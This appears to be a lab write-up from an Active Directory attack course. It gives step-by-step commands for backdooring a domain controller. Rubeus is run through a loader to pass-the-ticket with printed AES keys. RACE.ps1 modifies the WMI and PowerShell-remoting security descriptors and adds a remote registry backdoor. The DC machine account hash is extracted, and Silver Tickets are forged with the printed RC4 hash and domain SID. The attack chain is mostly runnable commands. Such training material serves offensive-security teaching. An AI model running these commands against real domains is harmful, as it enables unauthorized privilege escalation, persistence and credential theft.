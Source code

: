 # ⛑️ Modify security descriptors on DC & modify host security descriptors for WMI

Once we have administrative privileges on a machine, we can modify security descriptors of services to access the services without administrative privileges. the following command modifies the host security descriptors for WMI on the DC to allow studentx access to WMI

{% hint style="info" %}
WMI provides powerful administrative capabilities, such as querying system information, modifying system configurations, and executing scripts remotely. Granting `studentx` access to WMI on a DC effectively elevates the user's privileges,
{% endhint %}

First we need to spawn a domain admin shell ->

Argsplit to encode "asktgt"

and then:

```
>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

<figure><img src="../../.gitbook/assets/image (1119).png" alt=""><figcaption></figcaption></figure>

We can now run everything we need:

```
. C:\AD\Tools\RACE.ps1
Set-RemoteWMI -SamAccountName student613 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```

<figure><img src="../../.gitbook/assets/image (1120).png" alt=""><figcaption></figcaption></figure>

Now, we can execute WMI queries on the DC as studentx:

```
gwmi -class win32_operatingsystem -ComputerName dcorp-dc
```

<figure><img src="../../.gitbook/assets/image (1121).png" alt=""><figcaption></figcaption></figure>

* `gwmi`: This is an alias for the `Get-WmiObject` cmdlet in PowerShell. `Get-WmiObject` is used to retrieve management information from local and remote computers using Windows Management Instrumentation (WMI).
* `-class win32_operatingsystem`: This specifies the WMI class you are querying. The `win32_operatingsystem` class contains properties and methods related to the operating system of a computer, such as its version, name, manufacturer, configuration, and more.
* `-ComputerName dcorp-dc`: This specifies the target computer you want to query. `dcorp-dc` is the name of the remote computer from which you are retrieving the operating system information.

In summary, this command retrieves detailed information about the operating system from a computer named `dcorp-dc` using WMI.

Similar modification can be done to PowerShell remoting configuration. (In rare cases, you may get an I/O error while using the below command, please ignore it). Please note that this is unstable since some patches in August 2020:

```
Set-RemotePSRemoting -SamAccountName student613 -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose
```

<figure><img src="../../.gitbook/assets/image (1122).png" alt=""><figcaption></figcaption></figure>

Now, we can run commands using PowerShell remoting on the DC without DA privileges:

```
Invoke-Command -ScriptBlock{$env:username} -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

<figure><img src="../../.gitbook/assets/image (1123).png" alt=""><figcaption></figcaption></figure>

Now we would want to retrieve machine account hash without DA, first we need to modify permissions on the DC. ->

```
Add-RemoteRegBackdoor -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Trustee student613 -Verbose
```

<figure><img src="../../.gitbook/assets/image (1124).png" alt=""><figcaption></figcaption></figure>

Now, we can retreive hash as student613:

```
 Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
```

<figure><img src="../../.gitbook/assets/image (1125).png" alt=""><figcaption><p>e891213dd1f921f8f3a28d80e339ef58</p></figcaption></figure>

We can now use the machine account hash to create Silver Tickets. Create Silver Tickets for HOST and RPCSS using the machine account hash to execute WMI queries ->

**rpcss**

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /service:rpcss/dcorp-dc.dollarcorp.moneycorp.local /rc4:e891213dd1f921f8f3a28d80e339ef58 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```

<figure><img src="../../.gitbook/assets/image (1126).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1127).png" alt=""><figcaption></figcaption></figure>

**host:**

```
>C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /service:host/dcorp-dc.dollarcorp.moneycorp.local /rc4:e891213dd1f921f8f3a28d80e339ef58 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```

Proof that the 2 tickets are cached with klist:

<figure><img src="../../.gitbook/assets/image (1128).png" alt=""><figcaption></figcaption></figure>

And we are now able to run wmi queries on the dcorp-dc computer ->

```
gwmi -Class win32_operatingsystem -ComputerName dcorp-dc
```

<figure><img src="../../.gitbook/assets/image (1129).png" alt=""><figcaption></figcaption></figure>
